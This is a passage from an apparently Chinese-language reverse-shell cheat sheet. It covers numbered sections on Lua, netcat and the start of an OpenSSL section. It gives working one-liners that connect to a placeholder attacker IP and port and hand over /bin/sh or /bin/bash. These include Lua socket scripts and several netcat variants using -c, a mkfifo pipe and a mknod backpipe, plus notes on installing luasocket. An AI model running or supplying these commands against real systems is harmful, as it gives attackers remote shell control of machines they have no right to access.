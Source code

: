   
  
**09**  
  
  
**Lua**  
  
> lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('[: ip]',[: port]);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"  
  
  
> lua -e "local socket=require('socket');local os=require('os');t=socket.tcp();t:connect('[: ip]',[: port]);os.execute('/bin/sh -i <&3 >&3 2>&3');"  
  
  
    Lua在反弹Shell的过程中需要使用到socket，这就需要下载luasocket这个库，我才用的是源码编译安装，  
```
git clone https://github.com/diegonehab/luasocket.git
cd luasocket
make
sudo make install
```  
```
```  
  
	  
也可以采用luarocks 这个Lua包管理工具进行安装。  
> luarocks install luasocket  
  
  
  
**10**  
  
  
**nc**  
  
  
> nc [: ip] [: port]-c /bin/bash  
  
  
	  
    如果Linux上原装的nc没有-c/-e参数，可以尝试上文《netcat-traditional安装》相关内容尝试解决。  
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [: ip] [: port] >/tmp/f  
  
  
> nc [: ip] [: port] | /bin/bash | nc [: ip] [: port]  
  
  
	  
    这里输入的两组ip和port组合必须是不同的，前一个nc对应的连接用来接受命令，后一个nc对应的连接用来显示命令。  
> mknod backpipe p && nc [host] [port] 0<backpipe | /bin/bash 1>backpipe  
  
  
  
**11**  
  
  
**Openssl**  
  
  
    OpenSSL 是一个开源的软件库，它提供了一个强大的通用加密库，实现了 SSL（Secure Sockets Layer）和 TLS（Transport Layer Security）协议。  
OpenSSL 是网络安全中不可或缺的一部分，广泛应用于 Web 服务器、电子邮件、即时通讯、VPN 和许多其他需要安全通信的场景。  
由于其广泛的应用和重要性，保持 OpenSSL 的更新和安全配置是非常重要的，以防止已知漏洞和安全风险。  
### 1. 生成自签名证书  
> openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes  
  